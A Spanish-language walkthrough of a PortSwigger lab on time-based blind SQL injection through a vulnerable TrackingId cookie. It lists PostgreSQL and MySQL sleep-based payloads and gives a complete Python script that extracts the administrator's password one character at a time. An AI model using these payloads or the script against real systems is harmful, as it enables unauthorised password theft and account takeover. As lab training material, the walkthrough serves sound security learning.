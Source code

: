 ### Parte 1

Partimos de una cookie ‘**TrackingId**‘ vulnerable que se inserta directamente en una consulta SQL. Aprovechamos esta inyección para condicionar la ejecución de la función ‘**pg_sleep**‘ en función del resultado de la consulta. Si la condición se cumple, la aplicación se retrasa; si no, responde al instante.

Inicialmente verificamos si existe el usuario ‘**administrator**‘. A partir de ahí, inferimos la longitud exacta de su contraseña mediante condiciones incrementales como ‘**LENGTH(password)>n**‘, observando el tiempo de respuesta.

Una vez conocida la longitud (20 caracteres), automatizamos el proceso con Burp Intruder, utilizando ‘**SUBSTRING()**‘ para probar carácter por carácter. Configuramos los ataques para ejecutarse en un solo hilo y comparamos los tiempos de respuesta para identificar los caracteres correctos.

Finalmente, reconstruimos la contraseña completa y accedemos con las credenciales del administrador, completando el laboratorio con éxito

### Parte 2

Partimos desde el punto en el que ya conocemos la longitud de la contraseña del usuario ‘**administrator**‘. Ahora nos centramos en automatizar por completo la recuperación del valor de cada carácter que la compone, utilizando Burp Intruder para iterar de forma sistemática por todas las posiciones y valores posibles (letras minúsculas y números).

Se configura un ataque por cada posición de la contraseña, adaptando la consulta con ‘**SUBSTRING(password, n, 1)**‘ y analizando el retardo en la respuesta para identificar el carácter correcto. Cada vez que se produce una demora significativa (≈10 segundos), se confirma que el carácter probado es el correcto.

Repetimos el proceso hasta reconstruir completamente la contraseña, cerrando el ejercicio con el acceso exitoso a la cuenta del administrador

-----

* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and sleep(5)-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||pg_sleep(5)-- -
* Cookie: TrackingId=test' ; select pg_sleep(5)-- -
* Cookie: TrackingId=test' %3b select pg_sleep(5)-- - (urlencoding el ;)
* Cookie: TrackingId=test' %3b select case when (1=1) then pg_sleep(5) else pg_sleep(0) end-- - (tarda 5 seg)
* Cookie: TrackingId=test' %3b select case when (1=2) then pg_sleep(5) else pg_sleep(0) end-- - (no tarda nada cuando la condicion no se cumple)

Esto seria verdadero, porque hay un usuario administrator en la tabla users
* TrackingId=test' %3b select case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users-- -

Para obtener el longitud de la contraseña
* TrackingId=test' %3b select case when (username='administrator' and length(password)=20) then pg_sleep(5) else pg_sleep(0) end from users-- -

Para obtener cada uno de los caracteres de la conttraseña del usuario administrador
* TrackingId=test' %3b select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(5) else pg_sleep(0) end from users-- -

Ya con esto, podemos montarnos un script en python para automatizar toda la extraccion de los datos

```python
from pwn import *
import requests
import time
import signal
import string

def def_handler(sig,frame):
    p1.failure("Ataque Detenido")
    print(f"\n\n[!] Saliendo....\n")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url = "https://website_potswigger.com"
characters = string.ascii_lowercase + string.digits
p1 = log.progress("SQL")

def makeRequest():

    p1.status("Iniciando el Ataque")
    time.sleep(3)

    p2 = log.progress("Password")
    password = ""

    for position in range(1,21):
        for character in characters:
            cookies = {
                "TrackingId":f"test'%3b select case when (username='administrator' and substring(password,{position},1)='{character}') then pg_sleep(2) else pg_sleep(0) end from users-- -",
                "session":"cfvojf38hrvrvsu38u"
            }
            #print(cookies["TrackingId"])
            
            p1.status(cookies["TrackingId"])
                    
            time_start = time.time() # tiempo inicial
            r = requests.get(main_url, cookies=cookies)
            time_end = time.time()   # tiempo final

            if time_end - time_start > 2:
                password+=character
                p2.status(password)
                break
    
if __name__=='__main__':
    makeRequest()

```


Ahora si tuvieramos un MYSQL, seria de la siguiente forma:

* cjdcdc' or 1=1-- -
* cjdcdc' or if(condicion, verdadero , falso)-- - (forma logica de verlo)

Entonces si el primer caracter de la base de datos es una "a", tardaría 5 seg, de lo contraron, no tardaría nada
* cjdcdc' or if(substr(database(),1,1)='a', sleep(5) , sleep(0))-- -

Podemos poner un valor valido, y cambiarlo por "and":
* 1' and if(substr(database(),1,1)='a', sleep(5) , sleep(0))-- -

Ahora podemos jugar con querys internas:
* 1' and if(substr((select password from users where username='administrator'),1,1)='a', sleep(5) , sleep(0))-- -

Una vez teniendo la query para minar datos, podemos hacer un script y minar toda la información